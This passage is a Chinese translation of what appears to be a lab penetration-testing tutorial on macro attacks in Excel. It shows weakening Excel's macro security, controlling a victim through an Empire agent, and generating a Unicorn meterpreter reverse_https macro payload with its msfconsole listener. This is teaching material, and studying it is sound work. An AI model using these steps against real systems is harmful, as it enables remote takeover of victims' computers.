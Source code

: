 早些时候，这就是需要做的所有事情。但是，看到普通办公环境中与宏相关的攻击有所增加，Microsoft在用户端添加了更多验证以阻止某些攻击。现在，我们打开一个新的Excel工作簿。我们选择“文件”选项卡。在此选项卡中，我们单击“选项”部分，如下图所示。

![img](https://i0.wp.com/1.bp.blogspot.com/-xL0Agvbs44c/XlaWVFJKxnI/AAAAAAAAi2U/XfEI9OZs0WA3eqZ8RIENfWqDiZ8oiQT5QCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

单击选项部分将打开一个小窗口，如下图所示。现在，该窗口的左侧菜单中有一个名为“信任中心”的区域。我们打开它找到一些与隐私和安全相关的设置。在这里，我们有一个名为“ Microsoft Excel信任中心”的小节，我们通过单击“信任中心设置”按钮来打开其设置。

![img](https://i1.wp.com/1.bp.blogspot.com/-xgrASXE3Xak/XlaWVIYH6NI/AAAAAAAAi2Y/5Of4wAKyZmY7vJxrIxwtevR185uwJ89LQCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

这将打开另一个窗口，这里有一个名为“宏设置”的部分。我们点击它。它为我们提供了总共4个宏策略，每个策略对应一个单选按钮。默认情况下，我们选择了“禁用所有带通知的宏”策略。我们将其更改为“启用所有宏”策略，然后关闭窗口。

![img](https://i2.wp.com/1.bp.blogspot.com/-nUciie1X1mg/XlaWV82RLGI/AAAAAAAAi2c/zNhyh-QyqDUHDGJ3UYjTh3t20PiMYnjOgCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

现在，我们打开包含恶意宏的工作簿。它打开时没有任何障碍，警告或提示。我们回到了攻击者的机器上，检查了帝国，发现我们的一个特工处于活动状态。我们使用了agent命令来查看。在这里，我们看到我们有一个代理商。我们尝试使用interact命令访问代理。如果要使用Empire和Macros的组合来利用目标，则必须遵循此过程。

| 123  | agentsinteract FPSN1YAWinfo |
| ---- | --------------------------- |
|      |                             |

![img](https://i1.wp.com/1.bp.blogspot.com/-ZgqUqWT_Ud4/XlaWWS8VCQI/AAAAAAAAi2g/koxLXakdKPYxfiuygSu9jzRsnV6J5vguACLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

### unicorn

现在该检查另一种工具，该工具可以帮助我们使用宏来破坏目标。为此，我们使用Unicorn工具。有关Unicorn工具的更详细指南，请查看此[真棒指南](https://www.hackingarticles.in/magic-unicorn-powershell-downgrade-attack-and-exploitation-tool/)。独角兽中的有效载荷创建非常简单。我们必须像使用MSFvenom编写有效负载时那样声明有效负载。然后，我们需要提供会话将生成的IP地址和端口，并提供如下所示的macro关键字。

| 1    | python unicorn.py windows/meterpreter/reverse_https 192.168.1.106 443 macro |
| ---- | ------------------------------------------------------------ |
|      |                                                              |

![img](https://i0.wp.com/1.bp.blogspot.com/-qEO2GO8SrIU/XlaWJ5sDd2I/AAAAAAAAi0M/6BwVQx0UWQEiKzjS_qWHTXzWVb_zS0B9ACLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

这将创建一个文本文件和一个“ .rc”文件，其名称相同且位于相同的目标位置。

![img](https://i0.wp.com/1.bp.blogspot.com/-pIPX0SlFNQA/XlaWKEWdbPI/AAAAAAAAi0Q/HFl7yQUe1fE17bsimLecD3Zp2MgOYC-wACLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

我们运行独角兽显示的命令来为我们的有效负载创建一个侦听器。

| 1    | msfconsole -r unicorn.rc |
| ---- | ------------------------ |
|      |                          |

现在，我们需要在Excel中启用宏才能完成此攻击。在我们的实验室环境中，当我们尝试使用Empire来利用目标时，我们在先前的实践中启用了宏。因此，在那之后，我们打开一个Excel文件并按照以下步骤创建宏。打开宏编辑器模块后，我们将粘贴由Unicorn创建的文本文件中的数据，然后将Excel工作簿保存为目标系统上启用了Macros的Excel。

保存启用了恶意宏的Excel后，我们在目标系统上打开Excel。它给出了兼容性错误，如下图所示。

![img](https://i2.wp.com/1.bp.blogspot.com/-XCHPcj1wlMk/XlaWLH01vwI/AAAAAAAAi0Y/AoAl9864nfcBU1qY1kSrKh6TeRni5FQXwCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)
